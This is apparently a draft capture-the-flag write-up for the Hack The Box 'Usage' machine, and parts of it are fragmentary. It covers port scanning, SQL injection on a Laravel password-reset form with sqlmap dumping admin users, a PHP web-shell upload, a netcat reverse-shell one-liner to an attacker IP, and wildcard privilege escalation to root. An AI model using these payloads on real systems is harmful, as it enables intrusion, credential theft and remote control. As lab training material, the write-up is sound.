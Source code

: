 ```yaml
---
title: HTB-Usage
draft: false
tags:
  - htb
  - linux
  - easy
---
```

Picture here

## Information Gathering
### Rustscan

Rustscan discovers HTTP and SSH open:

```bash
┌──(yoon㉿kali)-[~/Downloads]
└─$ rustscan --addresses 10.10.11.18 --range 1-65535
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Nmap? More like slowmap.🐢
<snip>
Host is up, received syn-ack (0.31s latency).
Scanned at 2024-05-17 06:22:29 EDT for 0s

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.66 seconds
```


## Enumeration
### HTTP - TCP 80

After adding **usage.htb** to `/etc/hosts`, we can access the website:

pic here

**Admin** directs us to **admin.usage.htb**, which I also add to `/etc/hosts`:

![alt text](image.png)

**Reset Password** directs to `/forget-password`, and we can submit email address to reset password:

pic here

## Laravel SQLi

**Wappalyzer** shows that **Laravel** is running on the website:

wappalzyer ss

[Hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/laravel) provides detailed guides on exploiting Laravel.

After reading through, it seems like we might be able to do SQL Injection attack. 

Testing all possible entry points, `/forget-password` email paramenter is found to be vulnerable.

Let's first intercept request for reset password using Burp Suite:

![alt text](image-3.png)

Using [this list](https://github.com/payloadbox/sql-injection-payload-list?tab=readme-ov-file#generic-error-based-payloads) for fuzzing the email paramenter, it seems that length of 7729 is a redirection page and length of 1616 is 500 error page:

![alt text](image-7.png)

### SQLi Detection

Let's try identifying the number of columns.

Submitting `a' ORDER BY 8;-- -` will direct us to redirection page:

![alt text](image-5.png)

Submitting `a' ORDER BY 9;-- -` shows Server Error, indicating there's 8 columns:

![alt text](image-6.png)


### SQLMap

Let's automate the exploitation using sqlmap and set the paramenter email to be vulnerbale:

`sqlmap -r forget-pass-req.txt -p email --dbs --batch`



Let's try again after setting the risk level as such:

`sqlmap -r forget-pass-req.txt -p email --batch --level 5 --risk 3 --dbs`


Scan is very slow, but it still identifies email parameter being vulnerable and discovers MySQL running in the background. 

`sqlmap -r req.txt -p email --batch --level 5 --risk 3 --dbms=mysql -D usage_blog --tables`

`sqlmap -r req.txt -p email --batch --level 5 --risk 3 --dbms=mysql -D usage_blog -T admin_users --dump`


`sqlmap -r req.txt -p email --batch --level 5 --risk 3 --dbms=mysql -D usage_blog -T admin_users --columns`



`sqlmap -r req.txt -p email --batch --level 5 --risk 3 --dbms=mysql -D usage_blog -T admin_users --dump`


## Shell as dash
### admin.usage.htb

Using the cracked password, we can successfully signin to the dashboard:

![alt text](image-1.png)

At the bottom right, Laravel version is shown: **1.8.17**

![alt text](image-11.png)

### File Upload

Googling for Larval 1.8.17 exploit, we come accross [File Upload Vulnerability](https://www.exploit-db.com/exploits/49112).



![alt text](image-13.png)



https://github.com/pentestmonkey/php-reverse-shell

![alt text](image-12.png)

http://admin.usage.htb/uploads/images/rev_shell.jpg.php?cmd=id

<?php system(?_REQUEST["cmd"]); ?>


![alt text](image-14.png)

![alt text](image-15.png)

# real

pown

![alt text](image-16.png)

http://admin.usage.htb/uploads/images/pown.jpg.php

![alt text](image-17.png)

www.revshells.com

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.29 1337 >/tmp/f

![alt text](image-18.png)

![alt text](image-19.png)

![alt text](image-20.png)

3nc0d3d_pa$$w0rd


![alt text](image-21.png)


`sudo ssh xander@usage.htb`

![alt text](image-22.png)

![alt text](image-23.png)

`strings /usr/bin/usage_management`

![alt text](image-24.png)

`/usr/bin/7za a /var/backups/project.zip -tzip -snl -mmt -- *`

`/usr/bin/mysqldump -A > /var/backups/mysql_backup.sql`

https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks

![alt text](image-25.png)


![alt text](image-27.png)

![alt text](image-28.png)

![alt text](image-29.png)

`ssh -i id_rsa root@usage.htb`

![alt text](image-26.png)




## References
- https://github.com/payloadbox/sql-injection-payload-list?tab=readme-ov-file#generic-error-based-payloads
- https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/laravel
